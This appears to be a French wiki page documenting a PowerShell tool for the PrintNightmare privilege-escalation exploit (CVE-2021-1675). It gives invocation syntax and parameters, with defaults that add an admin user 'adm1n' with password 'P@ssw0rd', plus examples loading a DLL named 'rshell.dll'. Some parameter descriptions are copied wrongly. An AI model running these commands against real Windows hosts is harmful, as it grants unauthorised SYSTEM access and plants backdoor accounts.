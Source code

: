 ```yaml
---
title: PrintNightmare
description: Version PowerShell de l'exploit en local uniquement. Qui permet à n'importe quel utilisateur sans le privilège, d'ajouter des drivers d'impression à un système, et par conséquent d'exécuter du code en tant que NT AUTHORITY\SYSTEM.
published: true
date: 2024-08-23T14:43:21.274Z
tags: outil, windows, powershell
editor: markdown
dateCreated: 2024-08-23T14:32:14.312Z
---
```


# Introduction

Version PowerShell de l'exploit PrintNightmare en local uniquement. Utilisant une faille dans la fonction RpcAddPrinterDriver, qui permet à n'importe quel utilisateur sans le privilège, d'ajouter des drivers d'impression à un système, et par conséquent d'exécuter du code en tant que NT AUTHORITY\SYSTEM.

> La fonction RpcAddPrinterDriver permet aux utilisateurs avec le privilège SeLoadDriverPrivilege d'ajouter des drivers sur des spouleurs distants.
> {.is-info}

> La version PowerShell de PrintNightmare est disponible au téléchargement [ici](https://leo-mathy.fr)
> {.is-info}

# Syntaxe

`Import-Module .\cve-2021-1675.ps1`
`Invoke-Nightmare [paramètres]`

# Paramètres

| Paramètre                                      | Description                                                           |
| ---------------------------------------------- | --------------------------------------------------------------------- |
| `-DriverName <nom du driver à ajouter>`        | Spécifie le nom du driver (par défaut:"Totally Not Malicious").       |
| `-NewUser <nom de l'utilisateur>`              | Spécifie le nom du driver (par défaut:"adm1n").                       |
| `-NewPassword <mot de passe de l'utilisateur>` | Spécifie le nom du driver (par défaut:"P@ssw0rd").                    |
| `-DLL <chemin absolu du DLL>`                  | Spécifie le DLL à ajouter (non compatible avec les autres paramètres) |

# Exemples

Lancement avec un DLL personnalisé.
`Invoke-Nightmare -DLL "C:\temp\rshell.dll"`

Lancement avec mot de passe par "t00r_secure".
`Invoke-Nightmare -NewPassword "t00r_secure""`

# Voir aussi

le DLL par défaut utilisé pour ajouter un utilisateur:
https://github.com/calebstewart/CVE-2021-1675/blob/main/nightmare-dll/nightmare/dllmain.cpp

Fonction RpcAddPrinterDriver:
https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/f23a7519-1c77-4069-9ace-a6d8eae47c22

